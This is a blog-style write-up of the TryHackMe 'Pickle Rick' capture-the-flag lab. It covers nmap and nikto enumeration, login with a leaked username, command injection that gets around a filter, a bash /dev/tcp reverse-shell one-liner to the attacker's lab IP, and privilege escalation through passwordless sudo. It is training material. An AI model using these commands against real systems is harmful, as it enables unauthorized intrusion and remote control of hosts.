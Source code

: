 ```yaml
---
title: "TryHackMe: Pickle Rick"
date: 2020-11-11 00:00:00 +/-TTTT
categories: [Writeups, TryHackMe, easy]
tags: [tryhackme, easy]     # TAG names should always be lowercase
---
```


> **Title**: Pickle Rick
>
>**Platform**: TryHackMe
>
>**Difficulty**: Easy
>
>**Objective**: Root the box and gain access to the three ingredients to turn Rick back into a human from a pickle.

<img src= "https://tryhackme-images.s3.amazonaws.com/room-icons/47d2d3ade1795f81a155d0aca6e4da96.jpeg" width="250" height="250" > <br>

[Challenge Link](https://tryhackme.com/room/picklerick)

 > [!NOTE]
 This writeup does not divulge the flags.

I am a big Rick & Morty fan so this was the natural first pick to kick off the write ups! Let’s get **Schwiftyyyyyyyy…**

## Enumeration

Let’s begin with our favorite tool in the whole wide world..`NMAP`!

```js
root@ip-10-10-2-8:~# nmap -sS 10.10.238.189

Starting Nmap 7.60 ( <https://nmap.org> ) at 2023-12-28 20:40 GMT
Nmap scan report for ip-10-10-238-189.eu-west-1.compute.internal (10.10.238.189)
Host is up (0.00064s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:A3:0A:ED:E4:EB (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.73 seconds
```

And with a few other switches..

```javascript
root@ip-10-10-2-8:~# nmap -sC -sV 10.10.238.189

Starting Nmap 7.60 ( <https://nmap.org> ) at 2023-12-28 20:41 GMT
Nmap scan report for ip-10-10-238-189.eu-west-1.compute.internal (10.10.238.189)
Host is up (0.00059s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ca:29:35:20:59:12:22:6d:b5:9e:71:a9:13:ae:74:c1 (RSA)
|   256 4d:ad:85:45:39:1f:4e:e4:c5:f5:27:14:57:d3:81:fd (ECDSA)
|_  256 ff:d6:fd:35:1d:6e:2b:e8:66:8b:33:20:eb:b2:f4:35 (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
MAC Address: 02:A3:0A:ED:E4:EB (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 8.58 seconds
```

Navigating to Port 80 we are greeted with Grandpa RICK

![image](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527366805/b4a313e6-97de-49cc-ab3f-4243af9103a7.png)

Viewing the source of the `index.html` page we see the following

![image2](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527391473/f6847fe0-61a7-4fb2-b44b-f3c37d9137c0.png)

Now let’s enumerate the usual suspects using `nikto`

```javascript
root@ip-10-10-2-8:~# nikto -h <http://10.10.238.189>
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.238.189
+ Target Hostname:    ip-10-10-238-189.eu-west-1.compute.internal
+ Target Port:        80
+ Start Time:         2023-12-28 20:44:37 (GMT0)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x426 0x5818ccf125686 
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" retrieved but it does not contain any 'disallow' entries (which is odd).
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 6544 items checked: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2023-12-28 20:44:47 (GMT0) (10 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

* `robots.txt`
    
    I couldn’t stop laughing when I saw the entry
    
    ![image3](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527420086/9bb35c2a-bf34-4351-b62e-833c0c7a0da7.png)
    
* `login.php`
    
    Let’s try a few standard combinations for usernames and passwords
    

![image4](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527440172/6d9a96d0-79f7-4802-8d13-b367a7d3c0ab.png)

Username found earlier with the `robots.txt` entry combination works and we are in!

We are now logged into a `portal.php`

![image5](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527456037/e5603924-17d9-47fa-8b09-b628685f1fb2.png)

All the other tabs redirect to `denied.php` so we will investigate the command panel with something simple for a command injection

`Cat` the first one doesn’t work and we get a Command disabled message so let’s look at the `clue.txt`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527470931/acaa5158-d97b-4a2c-b333-37cbb0d550ca.png)

`Cat` and `tail` and similar commands do not work but we notice that `grep` works, now we use a shwifty little trick to read the text file like so

```jsx
grep -v "test" filename
```

Voila! We have our first ingredient!

## I Smell a Shell Morty!

Let’s try to pop a shell and we see we get a similar response with `sh` and a few moments later this works

```bash
bash -c 'sh -i >& /dev/tcp/10.10.2.8/4444 0>&1'
```

We read the `clue.txt` and go to `/home` and we see the second ingredient folder and go grab it.

You don't necessarily need to pop a shell, you can get by with command injection in the panel we saw earlier but shells are fun and I like poppin' them.

## One Step Closer....All powerful Root!

Now for the final ingredient which is root probably we see that the user `www-data`has sudo access and we run sudo -l to see what privileges our user has.

```bash
(ALL) NOPASSWD: ALL
```

Don't we just love when this happens?

```bash
sudo -i
```

We are root!

Head to the root directory and we have our final ingredient.

That's all for today folks, see you on the next one!